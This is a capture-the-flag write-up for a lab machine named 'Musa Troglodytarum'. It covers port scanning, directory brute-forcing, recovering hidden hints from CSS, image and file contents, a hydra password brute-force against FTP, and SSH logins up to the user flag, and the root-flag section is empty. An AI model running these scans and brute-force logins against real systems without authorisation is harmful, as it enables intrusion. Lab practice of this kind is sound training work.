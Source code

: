 # CTF: Musa Troglodytarum

![Difficulty: Medium](https://img.shields.io/badge/difficulty-medium-%23ffcc00)
![Contest Date: 2024-05-14](https://img.shields.io/badge/contest%20date-2024--05--14-informational)
![Category: FTP](https://img.shields.io/badge/category-ftp-%237159c1)
![By: Alexandre](https://img.shields.io/badge/by-Alexandre-%23f9a03c)
![alt text](img/musatroglodytarum.png)

## Description

> Le bananier des montagnes

## Write-up

UserFlag: user.txt
RootFlag: root.txt

## Flag Solutions

### User Flag

First thing to do is to check open ports on the target machine. We can do this by running a port scan using `nmap`.

```bash
nmap -sSV $IP
```

Results :

```bash
Starting Nmap 7.60 ( https://nmap.org ) at 2024-05-18 13:27 BST
Nmap scan report for ip-10-10-37-170.eu-west-1.compute.internal (10.10.37.170)
Host is up (0.00049s latency).
Not shown: 997 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.2
22/tcp open  ssh     OpenSSH 6.7p1 Debian 5+deb8u8 (protocol 2.0)
80/tcp open  http    Apache httpd 2.4.10 ((Debian))
MAC Address: 02:F4:5E:FF:AB:3F (Unknown)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

```

We see a open port 80. Let's check the website.

We go to the 80 port :
`http://$IP`

We have a debian default page.

We can use gobuster to find hidden directories :
```
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.37.170
[+] Threads:        10
[+] Wordlist:       Tools/wordlists/dirbuster/directory-list-2.3-small.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2024/05/18 13:29:17 Starting gobuster
===============================================================
/assets (Status: 301)
===============================================================
2024/05/18 13:29:23 Finished
===============================================================
```

We have a directory `/assets`. Let's check it out.

We go to the `/assets` directory :
`http://$IP/assets`

We see a directory listing :

```
[ICO]	Name	Last modified	Size	Description
[PARENTDIR]	Parent Directory	 	-	 
[VID]	MusaTroglodytarum.mp4	2021-11-29 15:57	50M	 
[TXT]	style.css	2021-11-29 13:04	2.9K	 
```

We have a video file `MusaTroglodytarum.mp4`. Let's download it. And listen to it.

In the video we have a person said :
```
Ce n'est pas au bon endroit que vous êtes. Vous devez trouver chercher sur le site.
```

In the style.css file we have :
```
/* Nice to see someone checking the stylesheets.
     Take a look at the page: /<file>.php
*/
```

We have an alert said disable JavaScript. We can disable it.

We go to the `/<file>.php` page :
`http://$IP/<file>.php`

We are redirected to a folder, we see a page like this :
![alt text](img/musatroglodytarum1.png)


We can wget the file `http://$IP/<file>.php` and see the content.

We see a redirection : 
```
--2024-05-18 14:13:12--  http://10.10.37.170/<file>.php
Connecting to 10.10.37.170:80... connected.
HTTP request sent, awaiting response... 302 Found
Location: intermediary.php?hidden_directory=/<folder> [following]
--2024-05-18 14:13:12--  http://10.10.37.170/intermediary.php?hidden_directory=/<folder>
Reusing existing connection to 10.10.37.170:80.
HTTP request sent, awaiting response... 302 Found
Location: /<folder> [following]
--2024-05-18 14:13:12--  http://10.10.37.170/<folder>
Reusing existing connection to 10.10.37.170:80.
HTTP request sent, awaiting response... 301 Moved Permanently
Location: http://10.10.37.170/<folder>/ [following]
--2024-05-18 14:13:12--  http://10.10.37.170/<folder>/
Reusing existing connection to 10.10.37.170:80.
HTTP request sent, awaiting response... 200 OK
Length: 618 [text/html]
Saving to: ’<file>.php’
```

We can see the hidden directory. We can go to the hidden directory :
`http://$IP/<folder>`

We have an image `Hot_Babe.png`. We can download it.

We use `strings` to see if there is any hidden text in the image.

```bash
strings Hot_Babe.png
```

We see code of the image but at the end we have a message :
```
Eh, you've earned this. Username for FTP is banane_celeste:
One of these is the password:
- ...
````

We have the username `banane_celeste` and we can stock the password in a file and use hydra to bruteforce the password to connect to the FTP server.

```bash
hydra -l banane_celeste -P password.txt ftp://$IP
```

We have the password `banane_celeste` and we can connect to the FTP server.

We can use the following command to connect to the FTP server :
```bash
ftp $IP
```

We do `ls` to see the files in the FTP server.
```bash
ftp> ls -al
drwxr-xr-x    2 0        0            4096 Nov 29  2021 .
drwxr-xr-x    2 0        0            4096 Nov 29  2021 ..
-rw-r--r--    1 0        0             860 Nov 08  2022 Valerian's_Creds.txt
```

We have a file `Valerian's_Creds.txt`. We can download it.

We can use the following command to download the file :
```
ftp> get Valerian's_Creds.txt
ftp> bye
```

We can use `cat` to see the content of the file.

```bash
cat Valerian's_Creds.txt
```

We have a text who said :
```
Get out, there is nothing here!
```

But we can install `xxd` to see if there is any hidden text in the file.

```bash
apt-get install xxd
```

We can use `xxd` to see if there is any hidden text in the file.

```bash
xxd Valerian's_Creds.txt
```

![alt text](img/musatroglodytarum2.png)

We see `.`in the xxd output. It's space. We have a language called "whitespace". We can use an online whitespace decoder to decode the text.

We have the password of the user `Valerian`, we can use it to connect to the SSH server.

```bash
ssh Valerian@$IP
```

We have a message when we connect to the SSH server :
```
Message from Root to Gabriel:

"Gabriel, I am not happy with you. Check our leet s3cr3t hiding place. I've left you a hidden message there"

END MESSAGE
```

We can try to find in all folders for a file called `s3cr3t`.

```bash
find / -name s3cr3t 2>/dev/null
```

We have a folder, we can go to the folder.

```bash
cd /<folder>
```

We can use `ls -al` to see the files in the folder.

```bash
ls -al
```

We found an hidden file `.th1s_m3ss4ag3_15_f0r_g4br13L_0nly!`.

```bash
cat .th1s_m3ss4ag3_15_f0r_g4br13L_0nly!
```

It says the password of the user `Gabriel`. We can use it to connect to the SSH server.

```bash
ssh Gabriel@$IP
```

Go to the home directory of the user `Gabriel`.

```bash
cd /home/gabriel
```

And we can see the user flag.

### Root Flag

